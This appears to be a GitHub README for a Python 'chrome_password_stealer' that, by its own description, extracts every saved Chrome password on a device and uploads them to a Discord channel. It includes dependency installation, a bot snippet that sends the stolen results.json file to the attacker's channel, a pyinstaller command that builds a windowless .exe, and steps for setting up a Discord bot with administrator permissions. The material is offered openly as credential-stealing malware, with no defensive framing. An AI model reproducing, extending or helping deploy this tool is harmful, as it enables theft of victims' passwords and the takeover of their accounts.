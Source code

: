 # chrome_password_stealer
This python script steals all the chrome password stored in a device and uploads them into a discord server
## instalation
Download or clone the repository and eecute this command to install all dependencies, if you want to compile to a exe file you will need to install pyinstaller too.
```bash
pip install -r requirements.txt
pip install pyinstaller
```
Before running the code you need to set up some variables
```bash
    @bot.event
    async def on_ready():#when the bot is ready sends the results file to the discord channel
        channel = bot.get_channel("YOUR CHANEL ID")
        if channel:
            await channel.send(file=discord.File('results.json'))
        await bot.close()
    bot.run('YOUR BOT TOKEN') 
```
You need to replace YOUR BOT TOKEN with your actual bot token from discord and YOUR CHANEL ID with the actual chanel id also from discord.

To compile to a .exe file run this command where the chrome.py file is stored
```bash
pyinstaller --onefile --windowed chrome.py
```
## Discord setup
First you need to enable the developer mode for discord. To do so you need to acces the configuration then advanced and enable the developer mode 
![Image of the option to enable](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/developer_mode.png)
Then you need to go to the https://discord.com/developers/ the discord theveloper portal and clic on new application
![Image of the app creation](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/app_creation.png)

Then you ned to navigate to the bot section and create a new bot and enable all types of intents and select administrator on the bot permission settings. Then save the changes.
![Image of the bot configuration](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/intents.png)
![image of the bot configuration](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/intents.png)